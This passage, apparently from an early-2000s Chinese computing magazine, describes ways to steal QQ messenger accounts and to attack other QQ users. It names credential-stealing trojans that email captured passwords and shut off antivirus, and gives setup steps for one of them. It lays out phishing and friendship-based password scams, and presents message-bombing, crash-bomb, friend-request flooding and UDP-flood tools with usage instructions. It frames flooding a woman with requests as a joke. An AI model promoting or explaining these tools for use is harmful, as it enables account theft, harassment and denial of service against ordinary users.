平台。本软件采用多线程方式进行探测，每个线程使用一个可用代理并扫描一个号码。如果在一时段一个号码被频繁探测，这个号码就会被禁止，因此此软件采用横向探测模式（即当一个号码被探测完才探测下一个号码）。所以使用本软件的关键在于要有足够的可用代理和足够的带宽，代理可循环使用。程序并不做删除代理，除非进行的是检测所有代理的可用性。当代理不可用时，自动取用下一个代理。热键功能，按下热键隐藏，再按则显示，以此类推。它还自带许多破解字典：生日字典、常用单词、名字字典等等。

以前除了在线破解法外，还有一种破解 QQ 本地文件密码验证文件的方法，但随着 QQ 版本更新，本地文件加密方式日益加强，本地文件破解 QQ 密码的这种方法现在基本不能用了。

### 2、木马窃取法

用木马来盗 QQ 这是现在黑客们最常用的 QQ 盗密方法。当用户运行某些来历不明的软件或打开网友发来的邮件附件时，说不定 QQ 木马就偷偷潜伏到你的计算机里，开始记录你 QQ 的号码和密码，并将其发送到攻击者的信箱。由于这种方法简单而且一劳永逸，只要把 QQ 木马放在网吧等公共机房的机子上，一天就可以收到几十个 QQ 号码。而且由于是本地实时记录，和 QQ 密码的复杂与否无关，一般如果木马进了你的机子，那密码基本能准确地记录下来。现在网上的 QQ 木马多不胜数，这里只能简单地介绍常见的几个木马。

QQ 杀手它是一个强劲的本地 QQ 盗号工具，该软件可以准确记录 QQ 登录时的号码和密码，并保存在指定文件和发送到指定邮箱。如图2，全面支持 Windows 98/2000/XP 操作系统和 QQ 最新版本。它还有其他一些 QQ 木马没有的功能，支持邮件发送的 SMTP 验证，自动关闭金山毒霸、天眼等防火墙的功能。

支持 Windows 2000/XP 和 QQ 最新版本。使用时运行 setup.exe，待安装完毕时，会弹出“设置程序”窗口，在此窗口中输入你的邮箱信息，如图3。设置只有一次机会，要仔细填写，输入完毕后，再单击“开始运行程序”即可。



图2

图3是 QQ 密码使者的发送信箱设置界面。经测试此软件截取 QQ 密码成功率 100%！最新版本 3.0，使得程序运行更稳定，成功率更高。



图3

### 3、密码骗取法

可能朋友不信，QQ 密码怎么骗呀？有这么笨的人会把自己的密码告诉别人？但事实上被骗 QQ 密码的人还不少！这些网络骗子是如何骗的呢？欺骗方法很多，攻击者会制作一个假冒腾讯公司邮件发送给用户，告诉用户中奖等消息或者可以免费升级为会员，要求用户提交密码和保密信箱等资料，以此骗得密码。

最可怕的方法是：攻击者先和你交朋友交段日子，然后他假装好心说他以前申请的有几个 QQ 号码，号码很好，是五位的，问你要不要。如果你要了，他就会催促你改掉密码以确保“安全”，然后他就会通过取回密码功能得到你改的新密码，而一般人通常什么地方都是同一个密码的，所以这样他就骗得了你的 QQ 密码。而结果你五位的 QQ 没拿成，自己的 QQ 却也丢了。

## 三、QQ 攻击工具

常有朋友在 QQ 上受到一些无聊人的攻击，其实这并不是什么高深的黑客技术，而是一些网上流传的 QQ 攻击工具惹的祸。只要有了这些攻击工具，即便刚碰电脑的新手也能把你的 QQ 搅得乌烟瘴气，我们来看看这些经常捣乱的 QQ 攻击工具！

### 1、“飘叶千夫指”

“飘叶千夫指”是一个非常老牌的 QQ 消息轰炸工具。QQ 消息轰炸就是在瞬间内发送大量的垃圾信息，使其用户的 QQ 短时间内应接不暇而无法正常使用。这种攻击其实和发普通消息是一样的，只是它的速度快，一秒能发好几条消息。被攻击者虽然不会有什么大的损害，但在短时间内受到成百上千条消息的骚扰，其讨厌程度可想而知，想正常聊天也不行了。在网上的各种 QQ 攻击工具中，最多最常见的就是消息攻击工具。“飘叶千夫指”随着 QQ 版本的更新而不断更新，最新版本是第五代飘叶千夫指，它支持目前最新 2003 版本的 QQ。它利用 QQ 本身的消息发送框进行消息轰炸，打开 QQ 的消息发送框后它会自动写入消息、自动发送，再自动写入……类似于聊天室的刷屏器原理。网速快的时候一分钟它可以发送几百条消息，收到消息的人想正常聊天是聊不成了的。

具有消息库和循环发送、自定义发送时间间隔等功能，可以将一篇文章一句接一句地发送。如图1。



图1

### 2、QQ 细胞发送器

最近网上出现的一个叫“QQ 细胞发送器”的 QQ 信息炸弹更绝，它不但能循环发送信息、向对方发送空信息，还能向对方发送 QQ 死机炸弹。只要先打开发送对象的 QQ 消息发送框，然后使用“QQ 细胞发送器”的“炸弹发送器”，按“发送”后，如图2，“QQ 细胞发送器”会自动把死机炸弹发送出去，而收到这个消息的用户的 QQ 就会出现非法操作而关闭。



图2

### 3、QQ 砸门机

“QQ 砸门机”是一个“另类”的消息轰炸工具，一般的轰炸工具发的是聊天消息，而它却是一个用来进行验证请求消息轰炸的工具。它可以发送成千上万个验证请求，使得用户 QQ 的“消息”源源不断地滚滚而来，如图3。



图3

有朋友会问，这有什么用呢？呵呵，MM 就在前面，可是请求了半天，她还是没让你通过验证，这时候你就需要使用这个“QQ 砸门机”了。用热情融化坚冰，用“QQ 砸门机”砸坏她家大门。它可以按你的要求设置请求的具体内容，然后不停地发出请求，直到 MM 不厌其烦给你通过验证为止。使用方法：打开身份验证的窗口（即标题为“找到好友”的窗体），如图4，点击“发送”，程序就开始按你的设定进行工作了。



图4

### 4. UDP Flood

UDP Flood 是对 QQ 进行 IP 数据包端口攻击的一个工具，如图5。它是一个能发送大量 UDP 包的程序。我们知道 QQ 采用的是 UDP 通讯协议，而且其默认的服务端口是 4000，如果在短时间内发送大量的 UDP 数据包到 QQ 的 4000 端口，就会引起 QQ 掉线等。使用时先要通过 QQ 查 IP 的工具获得对方 IP 地址，然后在 UDP Flood 中填入对方的 IP 及端口（4000），还可以在“speed”里拖动滑块来调节发送速度，速度越快攻击火力就越大。设置好速度后就可以开始攻击，UDP Flood 就会在短时间内向对方的 4000 端口发送大量的任意消息 UDP 数据包以阻塞通讯，对方的 QQ 会出现消息发送困难、频繁掉线等现象。



图5

#### 三、QQ 奇技淫巧

关于使用 QQ 的技巧大家也是熟练得不得了吧，不过我们这里要讲的 QQ 技巧可不是一般的技巧哦，而是一些“奇技淫巧”，是网友们在使用 QQ 的过程中探索和总结出的最最经典的一部分。学会这些技巧，保证你会 Q 得更精彩！



### 1、探测好友 IP 地址及其所处地

许多网友对探测好友 IP 地址及其所在地已经很熟悉了，但可能有些朋友还不是很了解，那就在这里再简单介绍一下。网上查 QQ 好友 IP 的补丁很多，其基本原理就是监视和分析对方 QQ 的 UDP 数据包报头，从而获得对方 IP 地址及通讯端口。像 QQ2000c 0825 Beta2 珊瑚虫程序就是其中一个比较优秀的查 IP 地址的软件，安装这个软件后不但可以显示好友的 IP 地址以及地理位置，如图1，它还帮我们去掉了烦人的广告，使界面更加清爽。





### 2、永远在线的 QQ

我们知道一般在线 QQ 的头像会显示亮色，而如果下了 QQ，那 QQ 的头像就会变成灰色的了。但如果有人的 QQ 下了线，他的头像还是显示亮色的呢？你是不是会把他当作在线？呵呵，是的，如果有这种 QQ，那他看起来是永远在线的！

有这样的 QQ 吗？有！而且只要你愿意，你的 QQ 也马上能变成永远在线！解压永远在线修改器压缩包，运行其 qqonline.exe 程序，出现 QQ 永远在线修改器界面，如图2。首先把自己的资料先填好，然后单击第一个生成器，系统会提示“资料生成完毕，请点击复制把它复制到粘贴板”。点击“复制”后，系统同样会提示“复制完毕”。请打开 QQ“个人设定→详细资料→个人主页”，然后粘贴并更新即可。

接着在最下面有一个填写昵称的表格，先把自己的昵称填上，然后点击后面的生成器，系统提示“新昵称生成完毕，请点击复制把它复制到粘贴板”。点击“复制”后，系统提示“复制完毕”，打开“QQ→个人设定→用户昵称”，然后粘贴更新即可。按这几个步骤进行即可。是不是很简单呢？这样你的 QQ 将会永远在线哦，意思就是说，当你上线的时候呢，你的 QQ 会成为灰色（即下线后的颜色），然而下线的时候呢，QQ 颜色会是发光的，如图3。

### 3、QQ 自动聊天

你能在 QQ 上对 MM 说情话而绵绵不绝吗？能对付众多的 QQ 网友而应付自如吗？QQ 自动聊天器能帮你这个忙！QQ 自动聊天器可自动循环发送 QQ 消息、QQ 贴图，可以调节发送速度，语句库里收集许多常用聊天语句，而且用户可以自定义语句，如图4。操作简单，你可以直接双击“语句框”中的语句与好友聊天，支持新版的 QQ。



图4

### 4、横放的文字信息

我们知道在腾讯 QQ2000C 0630 以上的版本开始就可以发各种字体，这使得我们的聊天更加生动和有趣。但是字体的样式只有粗体、斜体和下划线这三种样式，好像稍微显得少了一些，不过在这里笔者将给大家介绍一种极有个性的超酷文字信息发送方法，那就是“横放文字”信息发送法。

